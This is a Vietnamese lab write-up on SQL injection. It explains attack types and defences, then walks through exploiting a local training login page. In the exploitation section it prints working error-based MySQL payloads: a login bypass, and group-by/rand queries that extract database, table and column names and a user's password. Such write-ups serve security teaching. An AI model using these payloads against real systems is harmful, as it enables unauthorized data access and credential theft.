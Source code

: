 # Tìm hiểu SQL injection
## 1. SQL injection là gì?

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. 
Với SQL injection, hacker có thể truy cập một phần hoặc toàn bộ dữ liệu trong hệ thống. Trong nhiều trường hợp, hacker không chỉ đọc được dữ liệu mà còn có thể chỉnh sửa dữ liệu. Lúc này hacker có thể đăng nhập dưới vai trò admin, lợi dụng hệ thống, hoặc xoá toàn bộ dữ liệu khiến hệ thống ngừng hoạt động.

## 2. Các dạng tấn công SQL injection

![](https://i.imgur.com/jIHZycb.png)

### 2.1. In-band SQLi

In-band SQL injection là kiểu tấn công SQL injection phổ biến và dễ khai thác nhất. In-band SQLi xảy ra khi kẻ tấn công sử dụng cùng một kênh liên lạc để khởi động các cuộc tấn công và thu thập kết quả. 
Hai loại phổ biến nhất của In-band SQLi là Error-based SQLi và Union-based SQLi.
* Error-based: kẻ tấn công thực hiện inject các câu truy vấn lỗi thông qua input, sau đó dựa vào những thông báo lỗi này để thu thập thông tin về cấu trúc DB.
* Union-based: kẻ tấn công lợi dụng toán tử UNION để thu thập thông tin về DB.

### 2.2. Inferential (Blind) SQLi

Thông tin về cơ sở dữ liệu không được hiển thị với người dùng nên kẻ tấn công phải gửi payload và thu thập thông tin thông qua các response.
Blind SQLi thường mất nhiều thời gian để khai thác hơn các dạng SQLi khác.
Có hai loại Blind SQLi là Time-based và Boolean-based.
* Time-based: Hacker sẽ gửi một truy vấn SQL, làm cho DB đợi (trong vài giây) trước khi có thể hoạt động. Sau đó, hacker có thể xem thời gian DB cần để phản hồi, một truy vấn là đúng hay sai. Dựa trên kết quả, một HTTP repsonse sẽ được tạo ra. Vì vậy hacker có thể tìm ra thông báo mà chúng đã sử dụng trả về đúng hay sai, không cần dựa vào dữ liệu từ DB.
* Boolean-based: Hacker gửi một truy vấn SQL đến DB, làm ứng dụng trả về một kết quả. Kết quả có thể khác nhau tùy vào truy vấn đúng hay sai. Dựa vào đó, kẻ tấn công điều chỉnh câu truy vấn để khai thác.

### 2.3. Out-of-band SQLi
 
Out-of-band SQL Injection không phổ biến lắm, chủ yếu là do nó phụ thuộc vào các tính năng được bật trên máy chủ cơ sở dữ liệu đang được ứng dụng web sử dụng.
Phương thức tấn công này sử dụng một cấu trúc truy vấn SQL để yêu cầu sever trả về kết quả thông qua các kênh liên quan đến mạng.

## 3. Cách phòng chống SQLi

* **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. 
* **Không cộng chuỗi để tạo SQL:** Sử dụng parameter thay vì cộng chuỗi. 
* **Không hiển thị exception, message lỗi:** Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* **Phân quyền rõ ràng trong DB:** Nếu chỉ truy cập dữ liệu từ một số bảng, nên tạo một account trong DB và gán quyền truy cập cho account đó. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* **Backup dữ liệu thường xuyên:** Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được. 

___

# Khai thác SQL injection

## 1. Khai thác Error-based 

Khi nhập `' OR 1=1 -- ` vào ô username, em nhận được thông báo đăng nhập thành công nên ở đây dính SQLi.

![](https://i.imgur.com/9G1I2t0.png)

Khi nhập vào đây một câu truy vấn lỗi syntax thì sẽ có thông báo lỗi hiện ra. Đây là dấu hiệu của error-based.

![](https://i.imgur.com/cJjElxV.png)

Để lấy được tên cơ sở dữ liệu, em tạo ra một payload dựa trên `Duplicate entry for key 'group_key'`. 
**Payload:**`' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `
`floor(rand(0)*2)`: Sinh ra 0 hoặc 1 để nối với tên database phía trước. Điều này chắc chắn tạo ra một group_key bị trùng, chậm nhất là ở lần thứ ba.

![](https://i.imgur.com/dhSyED7.png)

Như vậy, em tìm được tên cơ sở dữ liệu là `kcsc`.
Lúc này, em tạo một payload tương tự để tìm tên bảng.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc'),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/kWFYSdV.png)

Ở đây, em thấy xuất hiện lỗi `Subquery returns more than 1 row in C:\xampp\htdocs\KCSC-train\task_1\login.php:28`. Điều này do cơ sở dữ liệu có nhiều hơn 1 bảng. Vậy để tìm ra tên bảng, em cần thêm `limit 0,1` vào payload để lấy ra tên bảng đầu tiên trong DB.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/G9WyOX4.png)

Ở đây, em biết được tên bảng đầu tiên là `task1`.
Tương tự, thay `limit 1,1`, em có tên bảng thứ hai là `upload`. 
Tăng lên `limit 2,1` em thấy không hiển thị lỗi nữa. Vậy DB này có 2 bảng là `task1` và `upload`. 
Tiếp theo, em khai thác thông tin ở bảng `task1`.
Bằng cách như trên, em cũng tìm ra được tên các cột trong bảng.
**Payload:** `' or 1=1 group by concat((select column_name from information_schema.columns where table_name='task1' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `.

![](https://i.imgur.com/h9UAKCh.png)

![](https://i.imgur.com/AxIr78R.png)

![](https://i.imgur.com/BUQ2qvP.png)

Vậy bảng `task1` có 3 cột lần lượt là: `id`, `username`, `password`.
Bây giờ, để lấy dữ liệu từ bảng, em truyền payload như sau:
**Payload lấy id:**`' or 1=1 group by concat((select id from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
**Payload lấy username:**`' or 1=1 group by concat((select username from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
**Payload lấy password:**`' or 1=1 group by concat((select password from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/IFG4Swc.png)

![](https://i.imgur.com/U32xc1N.png)

![](https://i.imgur.com/68b7wch.png)

Em đã có được thông tin người dùng đầu tiên như sau:
> id: 22
> username: Cuc
> password: cuc

Muốn lấy thông tin những người dùng còn lại, ta làm tương tự như trên và thay bằng `limit 1,1`, `limit 2,1`,...